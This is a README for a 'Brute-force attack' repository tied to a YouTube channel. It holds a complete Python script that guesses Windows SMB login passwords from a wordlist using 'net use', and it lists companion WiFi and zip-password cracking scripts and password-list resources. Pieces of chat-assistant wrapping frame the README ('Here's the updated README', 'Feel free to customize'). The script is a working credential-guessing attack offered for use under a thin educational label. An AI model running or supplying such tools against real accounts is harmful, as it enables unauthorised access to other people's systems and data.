 Here's the updated README with the additional resources:

---

# Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanx](https://www.youtube.com/@peymanx) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Content List](#content-list)
- [Resources](#resources)
- [License](#license)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.

## Preview
![login](https://github.com/user-attachments/assets/075a2c88-b7e9-41a7-8ee4-7d8e8392d867)

## Sample Code

```python
import os
from tqdm import tqdm
from colorama import Fore, Style, init

# Initialize colorama
init()
os.system('title @peymanx Windows Login Password Brute-force attack')

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0

def read_passwords(file_path):
    with open(file_path, 'r') as file:
        passwords = file.readlines()
    return [password.strip() for password in passwords]

def main():
    ip = '127.0.0.1'
    username = 'peymanx'
    password_file = './passwords/common.txt'

    passwords = read_passwords(password_file)
    total_passwords = len(passwords)

    max_password_length = max(len(password) for password in passwords)
    with tqdm(total=total_passwords, desc="Trying passwords", unit="password") as pbar:
        for password in passwords:
            padded_password = password.ljust(max_password_length)
            pbar.set_description(f"{Fore.YELLOW}Trying password: {padded_password}{Style.RESET_ALL}")
            if connect_to_smb(ip, username, password):
                print(f'\n{Fore.GREEN}{"*"*70}')
                print(f'{Fore.GREEN}Successfully connected!')  # Blinking text
                print(f'{Fore.GREEN}Password: \'\033[5m{password}\033[0m{Fore.GREEN}\'')  # Blinking text
                print(f'{Fore.GREEN}{"*"*70}{Style.RESET_ALL}\n')
                break
            pbar.update(1)
        else:
            print(f'\n{Fore.RED}Password not found{Style.RESET_ALL}')

if __name__ == '__main__':
    main()
```

## Content List

- **passwords**
  - More password samples added (Jan 17, 2025)
- **login_hack.py**
  - Windows login hack 
- **wifi_hack.py**
  - WiFi hack 
- **zip_hack.py**
  - Compressed file password hack 

## Resources

- [SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments](https://github.com/danielmiessler/SecLists)
- [Persian Words Jadi :)](https://github.com/jadijadi/persianwords)
- [Iranian-Password-list](https://github.com/Dih4v/Iranian-Password-list)
- [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

Feel free to customize it further to suit your needs!
